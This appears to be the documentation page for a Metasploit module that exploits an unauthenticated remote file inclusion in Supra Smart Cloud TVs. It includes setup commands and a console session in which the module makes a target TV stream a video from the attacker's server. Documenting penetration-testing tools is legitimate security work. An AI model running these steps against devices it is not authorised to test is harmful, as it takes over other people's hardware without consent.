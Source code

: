 ## Summary

This module exploits an unauthenticated remote file inclusion which exists in Supra Smart Cloud TV. 
The media control for the device doesn't have any session management or authentication. Leveraging this, an
attacker on the local network can send a crafted request to broadcast a fake video.

**Reference:** https://www.inputzero.io/2019/06/hacking-smart-tv.html

## Verification Steps

1. `use auxiliary/admin/http/supra_smart_cloud_tv_rfi `
2. `set RHOSTS [IP]`
3. `set SRVHOST [IP]`
4. `run`

Doo-doodoodoodoodoo-doo, Epic Sax Guy will be broadcasted to the remote system.

## Scenarios

```
msf5 > use auxiliary/admin/http/supra_smart_cloud_tv_rfi 
msf5 auxiliary(admin/http/supra_smart_cloud_tv_rfi) > set SRVHOST 192.168.1.132
SRVHOST => 192.168.1.132
msf5 auxiliary(admin/http/supra_smart_cloud_tv_rfi) > set RHOSTS 192.168.1.155
RHOSTS => 192.168.1.155
msf5 auxiliary(admin/http/supra_smart_cloud_tv_rfi) > run
[*] Running module against 192.168.1.155
[*] Using URL: http://192.168.1.132:8080/
[*] Broadcasting Epic Sax Guy to 192.168.1.155:80
[+] Doo-doodoodoodoodoo-doo
[*] Sleeping for 10s serving .m3u8 and .ts files...
[*] Server stopped.
[*] Auxiliary module execution completed
msf5 auxiliary(admin/http/supra_smart_cloud_tv_rfi) >
```
